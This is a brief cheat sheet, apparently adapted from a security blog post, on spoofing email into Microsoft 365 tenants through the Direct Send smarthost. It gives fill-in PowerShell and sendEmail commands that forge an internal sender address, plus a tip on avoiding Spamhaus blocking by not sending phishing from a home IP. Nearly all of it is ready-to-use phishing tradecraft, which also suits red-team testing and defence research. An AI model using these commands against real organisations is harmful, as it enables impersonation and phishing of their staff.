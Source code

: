 ### Source
https://www.blackhillsinfosec.com/spoofing-microsoft-365-like-its-1995

### Spoofing using Micrsoft Direct Send
```
Prerequisites:
- Microsoft 365 subscription and an Exchange Online Plan
- MX endpoint called Smarthost: <targetDomain-domainComponent>.mail.protection.outlook.com
```

### Spoof message using Microsoft Direct Send
```
Send-MailMessage -SmtpServer <company-com>.mail.protection.outlook.com -To <user>@<company.com> -From <user>@<company.com> -Subject "<subject>" -Body "<body>" -BodyAsHTML
```

### Spoof message using Microsoft Direct Send 
```
cat <file.html> | sendEmail -f "<user>@<company.com>" -u "<subject>" -s "<company-com>.mail.protection.outlook.com" -t "<user>@<company-com>" -o message-content-type=html
```

### Note
```
SPAMHAUS will block most residential IP addresses from sending spoofed emails.
Do not send phishing emails from your house IP adress.
```

